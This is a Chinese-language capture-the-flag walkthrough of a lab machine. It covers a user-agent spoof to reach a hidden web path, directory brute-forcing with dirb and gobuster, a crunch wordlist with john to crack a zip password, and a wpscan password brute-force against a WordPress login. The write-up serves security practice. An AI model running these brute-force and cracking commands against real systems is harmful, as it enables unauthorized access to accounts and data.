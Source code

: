 
从ftp上下载了一个txt 告诉我们一个新的路径 在8008里面

![image.png](https://s2.loli.net/2025/05/02/5nNaVc8mFjeU9xJ.png)

但访问不了 很奇怪

看了人家说法是说要改代理 

steve jobs就是iPhone 代理改成iphone 成功访问

给dirb加个ua再去爆破

-a 表示加个user-agent
```
dirb http://61.139.2.169:8008/NickIzL33t/ -a "Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148"  -X .html
```

发现并不能跑出来 又陆陆续续换了好多个

```
gobuster dir -u http://61.139.2.169:8008/NickIzL33t/ -H "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 14_7_1 like Mac OS X) AppleWebKit/537.36 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/537.36" -w /root/rockyou.txt -x html
```

![image.png](https://s2.loli.net/2025/05/02/srcZQoLWBpA7YmX.png)

OK 这个跑出来了

![image.png](https://s2.loli.net/2025/05/02/c1gpFe8YAVh2E79.png)

找到第三个flag

![image.png](https://s2.loli.net/2025/05/02/FOZYtL93HJEcWKb.png)

## 破解出密码
第一个网页给我们提示 根据密码规则 ​**​"bev + 1大写字母 + 2数字 + 2小写字母 + 1符号 + 1995"​**​（总长度13字符）

```
crunch 13 13 -t bev,%%@@^1995 -d 1@ -o passlist.txt
生成出满足要求的密码
zip2john 压缩包名 > name.txt
john --wordlists=passlist.txt name.txt 
```

![image.png](https://s2.loli.net/2025/05/02/NtBuc31YRzs6Eyd.png)

## wp网站破解
用枚举出来的用户进行破解
```
wpscan --url http://61.139.2.169/prehistoricforest/ --usernames=tom --passwords=/root/rockyou.txt
```

![image.png](https://s2.loli.net/2025/05/02/GM71Y6u9A45NQoE.png)
